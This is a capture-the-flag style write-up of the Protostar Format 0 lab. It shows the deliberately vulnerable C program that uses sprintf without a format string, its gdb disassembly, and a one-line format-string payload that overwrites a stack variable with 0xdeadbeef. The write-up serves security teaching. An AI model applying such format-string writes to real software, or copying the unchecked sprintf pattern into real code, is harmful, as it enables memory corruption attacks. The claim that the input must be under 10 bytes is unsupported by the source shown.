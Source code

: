 # PROTOSTAR : FORMAT 0
[Protostar:Format0](https://exploit.education/protostar/format-zero/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Format Strings 

The above code is vulnerable to format strings vulnerability.
The **sprintf** is vulnerable to format strings because it is not checking the format specifier of the input. Format Strings can cause memory leak or memory write.

### **SOLUTION**

Below is the disassembly of the **vuln()** function.
```
user@protostar:/opt/protostar/bin$ gdb -q format0
Reading symbols from /opt/protostar/bin/format0...done.
(gdb) set disassembly-flavor intel
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave  
0x0804842a <vuln+54>:   ret    
End of assembler dump.
```

The input has to be less than 10 bytes and the string **deadbeef** already takes 4 bytes. So lets write a python script to solve this challenge.

```
user@protostar:/opt/protostar/bin$ ./format0 $(python -c "print '%64d' + '\xef\xbe\xad\xde'")
you have hit the target correctly :)
```

Since there are no format arguments but format specifier **%64d** is provided so it will execute 64 spaces to fill the **buffer** variable then append the **deadbeef** string/word.